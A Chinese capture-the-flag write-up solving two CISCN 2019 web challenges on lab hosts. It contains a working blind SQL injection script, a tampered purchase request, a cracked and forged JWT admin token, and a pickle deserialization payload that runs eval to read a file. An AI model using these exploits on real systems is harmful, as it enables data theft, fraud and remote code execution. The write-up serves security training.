 # CISCN 2019

## Hack World

> *2021/07/12*

### 题目

进去是一个登录页面，输入试一下，发现1,2是正常回显，之后就不是了，很明显是一个数字型的注入

![202107121](img/ciscn2019/ciscn20191.png)

测试一下过滤了哪些字符，`space`,`union`,`|`,`%`等被过滤掉了，但是`()`,`ascii`,`database()`,`substr()`等并没有被过滤，关键是把后面和前面连接起来，这里有两种方法

- `^`
- 直接等于，因为是数字型

盲注跑脚本就可以了

### payload

```python
import requests
import base64
import sys
import string
import hashlib
import io
import time

x = string.printable
flag = ""
url = "http://2ab3de45-45ff-4613-8d75-e1d644e26d7d.node4.buuoj.cn/index.php"
payload={
	"id" : ""
}
try:
	for i in range(0,60):
		for j in x:
			payload["id"] = "(ascii(substr((select(flag)from(flag)),%s,1))=%s)"%(str(i),ord(j))
			s = requests.post(url,data=payload)
			#print(j)
			if "Hello" in s.text:
				flag += j
				print(flag)
				break
			else:
				time.sleep(0.5)
except:
	print(flag)
```

## ikun

> *2021/07/31*

### 题目

进去之后是一个页面

![ciscn20192](img/ciscn2019/ciscn20192.png)

像是个买东西的页面的题，先翻翻页面，发现`hint:<!--这题脑洞确实有点大,所以我们留了些hint,请注意!-->`，先注册个账号登录一下，登录进去之后，发现有个钱包，还能改密码

![ciscn20193](img/ciscn2019/ciscn20193.png)

那就回到起始页面买东西，翻了好几页都没`lv6`，直接脚本，在`page=181`发现了`lv6`

![ciscn20194](img/ciscn2019/ciscn20194.png)

但是这个很贵，先尝试买一下

![ciscn20195](img/ciscn2019/ciscn20195.png)

数据包为

```http
POST /shopcar HTTP/1.1
Host: ea93bfc8-7221-49d4-a98b-7a3d80bce4b7.node4.buuoj.cn
Content-Length: 106
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ea93bfc8-7221-49d4-a98b-7a3d80bce4b7.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://ea93bfc8-7221-49d4-a98b-7a3d80bce4b7.node4.buuoj.cn/shopcar
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; _xsrf=2|7c738142|da3ab02634ef6adb6b9c38b8dd514832|1627789342; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImJtZSJ9.vGqzFUXa5GlwytV3Ed0P0ixEGWXpyOe4vRxF3_mLdYc; PHPSESSID=c1e23426d03fb6dbf072022b03068182; commodity_id="2|1:0|10:1627789758|12:commodity_id|8:MTYyNA==|e95ad6adfd8d48691ed98475b441870d89d3e759d17a548ca76d29d03d2479fc"
Connection: close

_xsrf=2%7Cbe640ba8%7C182d3accf6f8e031a98bb2521f46c2d8%7C1627789342&id=1624&price=1145141919.0&discount=0.8
```

看到数据包有两种猜测

- 改`price`，使得价格变得很小
- 改`discount`，是折扣变得很多

这里是改`discount`，成功买到`lv6`，进入下一个页面

![ciscn20196](img/ciscn2019/ciscn20196.png)

发现这个页面需要我们伪造`admin`身份，看了一下`cookie`，包含JWT token，拿到`jwt.io`看一下

![ciscn20197](img/ciscn2019/ciscn20197.png)

大概率是**伪造JWT token**，先拿工具跑一下

![ciscn20198](img/ciscn2019/ciscn20198.png)

破解出密码为`1Kun`，修改COOKIE，进入页面

![ciscn20199](img/ciscn2019/ciscn20199.png)

搜索页面，发现hint，可以下载源代码，找到对应页面的逻辑

```python
# main.py
import tornado.web
import tornado.ioloop
import tornado.httpserver
import tornado.options
from tornado.options import options, define

define('port', default=8233, help='run on the given port', type=int)
define('address', default='0.0.0.0', help='binding at given address', type=str)

from sshop import Application

def main():
    tornado.options.parse_command_line()
    server = tornado.httpserver.HTTPServer(Application())
    server.listen(options.port, options.address)
    print 'slog server started: <http://%s:%s>' % (options.address, options.port)
    tornado.ioloop.IOLoop.instance().start()


if __name__ == '__main__':
    main()
```

```python
# /sshop/views/Admin.py
import tornado.web
from sshop.base import BaseHandler
import pickle
import urllib


class AdminHandler(BaseHandler):
    @tornado.web.authenticated
    def get(self, *args, **kwargs):
        if self.current_user == "admin":
            return self.render('form.html', res='This is Black Technology!', member=0)
        else:
            return self.render('no_ass.html')

    @tornado.web.authenticated
    def post(self, *args, **kwargs):
        try:
            become = self.get_argument('become')
            p = pickle.loads(urllib.unquote(become))
            return self.render('form.html', res=p, member=1)
        except:
            return self.render('form.html', res='This is Black Technology!', member=0)
```

很明显的pickle反序列化漏洞，同时根据`print`的写法，判断这个应该是2.x的python，直接反序列化打过去就可以，需要注意的是，pickle的反序列化目前有四个版本，最新的为4，而2.x用的是0，如果脚本用的是高版本python，如3.9需要修改参数

### payload

```python
# exp.py
import pickle
import urllib
import requests


class payload(object):
    def __reduce__(self):
        return (eval, ("open('/flag.txt','r').read()", ))


print(urllib.parse.quote(pickle.dumps(payload(), protocol=0)))
```

```http
POST /b1g_m4mber HTTP/1.1
Host: ea93bfc8-7221-49d4-a98b-7a3d80bce4b7.node4.buuoj.cn
Content-Length: 172
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://ea93bfc8-7221-49d4-a98b-7a3d80bce4b7.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://ea93bfc8-7221-49d4-a98b-7a3d80bce4b7.node4.buuoj.cn/b1g_m4mber
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; _xsrf=2|7c738142|da3ab02634ef6adb6b9c38b8dd514832|1627789342; commodity_id="2|1:0|10:1627789758|12:commodity_id|8:MTYyNA==|e95ad6adfd8d48691ed98475b441870d89d3e759d17a548ca76d29d03d2479fc"; PHPSESSID=c1e23426d03fb6dbf072022b03068182; JWT=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.40on__HQ8B2-wM1ZSwax3ivRK4j54jlaXv-1JjQynjo
Connection: close

_xsrf=2%7C46ad4fdc%7Ce0e47eb80e31a4455142f626e78f86ac%7C1627789342&become=c__builtin__%0Aeval%0Ap0%0A%28Vopen%28%27/flag.txt%27%2C%27r%27%29.read%28%29%0Ap1%0Atp2%0ARp3%0A.
```


